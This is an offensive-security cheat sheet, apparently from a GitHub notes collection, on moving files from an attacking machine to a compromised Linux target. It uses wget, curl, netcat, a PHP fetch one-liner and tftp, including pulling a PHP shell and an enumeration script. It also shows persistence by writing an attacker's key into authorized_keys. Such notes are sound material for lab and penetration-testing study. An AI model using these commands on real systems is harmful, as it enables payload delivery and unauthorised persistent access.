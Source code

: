 # Transfering Files on Linux

## Set Up a Simple Python Webserver <a id="set-up-a-simple-python-webserver"></a>

For the examples using `curl` and `wget` we need to download from a web-server. This is an easy way to set up a web-server. This command will make the entire folder, from where you issue the command, available on port 9999.

```text
python -m SimpleHTTPServer 9999
```

## Wget <a id="wget"></a>

You can download files using `wget` like this:

```text
wget 192.168.1.102:9999/file.txt
```

## Curl <a id="curl"></a>

```text
curl -O http://192.168.0.101/file.txt
```

## Netcat <a id="netcat"></a>

Another easy way to transfer files is by using netcat.

If you can't have an interactive shell it might be risky to start listening on a port, since it could be that the attacking-machine is unable to connect. So you are left hanging and can't do `ctr-c` because that will kill your session.

So instead you can connect from the target machine like this.

On attacking machine:

```text
nc -lvp 4444 < file
```

On target machine:

```text
nc 192.168.1.102 4444 > file
```

You can of course also do it the risky way, the other way around:

So on the victim-machine we run `nc` like this:

```text
nc -lvp 3333 > enum.sh
```

And on the attacking machine we send the file like this:

```text
nc 192.168.1.103 < enum.sh
```

I have sometimes received this error:

```text
This is nc from the netcat-openbsd package. An alternative nc is available
```

I have just run this command instead:

```text
nc -l 1234 > file.sh
```

## With php <a id="with-php"></a>

```text
echo "<?php file_put_contents('nameOfFile', fopen('http://192.168.1.102/file', 'r')); ?>" > down2.php
```

## Ftp <a id="ftp"></a>

If you have access to a ftp-client to can of course just use that. Remember, if you are uploading binaries you must use binary mode, otherwise the binary will become corrupted!!!

## Tftp <a id="tftp"></a>

On some rare machine we do not have access to `nc` and `wget`, or `curl`. But we might have access to `tftp`. Some versions of `tftp` are run interactively, like this:

```text
$ tftp 192.168.0.101
tftp> get myfile.txt
```

If we can't run it interactively, for whatever reason, we can do this trick:

```text
tftp 191.168.0.101 <<< "get shell5555.php shell5555.php"
```

### SSH - SCP <a id="ssh---scp"></a>

If you manage to upload a reverse-shell and get access to the machine you might be able to enter using ssh. Which might give you a better shell and more stability, and all the other features of SSH. Like transferring files.

So, in the `/home/user` directory you can find the hidden `.ssh` files by typing `ls -la`. Then you need to do two things.

1. Create a new keypair

You do that with:

```text
ssh-keygen -t rsa -C "your_email@example.com"
```

then you enter a name for the key.

Enter file in which to save the key \(/root/.ssh/id\_rsa\): nameOfMyKey Enter passphrase \(empty for no passphrase\): Enter same passphrase again:

This will create two files, one called `nameOfMyKey` and another called `nameOfMyKey_pub`. The one with the `_pub` is of course your public key. And the other key is your private.

1. Add your public key to authorized\_keys.

Now you copy the content of `nameOfMyKey_pub`. On the compromised machine you go to `~/.ssh` and then run add the public key to the file authorized\_keys. Like this

```text
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDQqlhJKYtL/r9655iwp5TiUM9Khp2DJtsJVW3t5qU765wR5Ni+ALEZYwqxHPNYS/kZ4Vdv..." > authorized_keys
```

1. Log in.

Now you should be all set to log in using your private key. Like this

```text
ssh -i nameOfMyKey kim@192.168.1.103
```

### SCP <a id="scp"></a>

Now we can copy files to a machine using `scp`

```text
# Copy a file:
scp /path/to/source/file.ext username@192.168.1.101:/path/to/destination/file.ext

# Copy a directory:
scp -r /path/to/source/dir username@192.168.1.101:/path/to/destination
```

